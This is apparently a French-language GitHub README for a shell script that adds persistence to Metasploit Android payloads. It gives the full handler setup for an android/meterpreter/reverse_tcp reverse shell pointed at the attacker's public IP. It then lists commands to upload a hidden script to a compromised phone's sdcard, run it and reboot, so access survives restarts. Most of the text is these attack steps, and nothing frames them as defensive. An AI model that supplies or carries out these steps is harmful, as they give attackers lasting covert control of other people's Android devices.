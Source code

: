 # **<center>Msf Persistance Android</center>**


**INTRODUCTION**

*Script qui permet d'ajouter la persistance aux payload android avec msf*


**UTILISATION**

1 - Mettez le script msf-persistance-android.sh dans le dossier root et renommez le .sh

2 - Ouvrir MSF

    use exploit/multi/handler
    set payload android/meterpreter/reverse_tcp
    set lhost VOTRE IP PUBLIC
    set lport LE PORT DE VOTRE CHOIX
    exploit

3 - Copier / coller dans un terminal en console msf avec une session android :

    cd /
    cd sdcard
    upload ~/.sh
    shell
    cd /
    cd sdcard
    sh .sh
    reboot
    exit


**LICENSE**

[![GPLv3+](http://gplv3.fsf.org/gplv3-127x51.png)](https://github.com/oda-alexandre/msf-persistance-android/blob/master/LICENSE)
